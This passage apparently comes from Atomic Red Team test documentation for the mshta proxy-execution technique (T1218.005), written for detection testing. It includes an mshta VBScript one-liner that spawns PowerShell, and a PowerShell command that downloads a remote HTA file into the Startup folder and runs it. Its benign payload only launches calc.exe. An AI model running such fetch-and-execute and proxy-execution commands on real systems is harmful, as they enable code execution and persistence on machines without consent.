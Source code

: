 
#### Attack Commands: Run with `command_prompt`! 


```cmd
mshta vbscript:Execute("CreateObject(""Wscript.Shell"").Run ""powershell -noexit -file PathToAtomicsFolder\T1218.005\src\powershell.ps1"":close")
```






<br/>
<br/>

## Atomic Test #3 - Mshta Executes Remote HTML Application (HTA)
Execute an arbitrary remote HTA. Upon execution calc.exe will be launched.

**Supported Platforms:** Windows


**auto_generated_guid:** c4b97eeb-5249-4455-a607-59f95485cb45





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| temp_file | temp_file location for hta | string | $env:appdata&#92;Microsoft&#92;Windows&#92;Start Menu&#92;Programs&#92;Startup&#92;T1218.005.hta|
| hta_url | URL to HTA file for execution | string | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218.005/src/T1218.005.hta|


#### Attack Commands: Run with `powershell`! 


```powershell
$var =Invoke-WebRequest "#{hta_url}"
$var.content|out-file "#{temp_file}"
mshta "#{temp_file}"
start-sleep -s 15
stop-process -name "calculator" -Force
```

#### Cleanup Commands:
```powershell
remove-item "#{temp_file}" -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #4 - Invoke HTML Application - Jscript Engine over Local UNC Simulating Lateral Movement
Executes an HTA Application using JScript script engine using local UNC path simulating lateral movement.
